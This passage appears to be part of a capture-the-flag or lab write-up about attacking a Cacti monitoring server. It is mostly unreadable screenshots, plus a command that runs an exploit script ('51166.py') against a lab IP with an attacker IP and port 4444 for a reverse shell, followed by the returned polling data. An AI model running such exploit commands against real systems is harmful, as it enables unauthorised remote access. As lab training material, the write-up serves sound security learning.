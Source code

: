 <br>

<img width="942" height="284" alt="image" src="https://github.com/user-attachments/assets/e49e5c53-23cd-4fc5-9f76-c7474ea9e7e5" />

<img width="951" height="494" alt="image" src="https://github.com/user-attachments/assets/ca02ffc9-81b5-4c87-a2e3-955b28834aea" />

<img width="791" height="296" alt="image" src="https://github.com/user-attachments/assets/ef1cfe12-0d50-4add-9ac4-0c101fb59e67" />

<img width="1043" height="395" alt="image" src="https://github.com/user-attachments/assets/d666f4ab-c937-45c8-9c43-5e3d7058ddae" />


<br>

<img width="1043" height="290" alt="image" src="https://github.com/user-attachments/assets/c538b2b1-950b-4559-a000-457f252762c8" />

<br>

<img width="1052" height="503" alt="image" src="https://github.com/user-attachments/assets/42b607e3-d78d-4a52-85c9-1b77d369d5f2" />


<br>

<img width="1053" height="494" alt="image" src="https://github.com/user-attachments/assets/b0ab852f-72fd-4a11-be27-7c2aedcf68b7" />

<br>

<img width="945" height="620" alt="image" src="https://github.com/user-attachments/assets/50f6ac5f-a059-4409-988f-78bd54ff8772" />

<br>

<img width="892" height="435" alt="image" src="https://github.com/user-attachments/assets/6d2c9b1d-ea06-42b5-83a1-84a3106cec1e" />

<br>

<img width="952" height="497" alt="image" src="https://github.com/user-attachments/assets/5683fa5f-14fa-415d-b68d-914821ba8855" />

```bash
:~/Cactus# pip3 install httpx
```

```bash
:~/Cactus# python3 51166.py -u http://10.10.123.167/cacti/ -i 10.10.60.163 -p 4444
200 - [{"value":"168","rrd_name":"proc","local_data_id":"1"}]
200 - [{"value":"1min:1.55 5min:1.55 10min:1.60","rrd_name":"","local_data_id":"2"}]
200 - [{"value":"0","rrd_name":"users","local_data_id":"3"}]
200 - [{"value":"178896","rrd_name":"mem_buffers","local_data_id":"4"}]
200 - [{"value":"9427704","rrd_name":"mem_swap","local_data_id":"5"}]
200 - []
200 - []
200 - []
200 - []
200 - []
200 - []
200 - []
200 - []
```
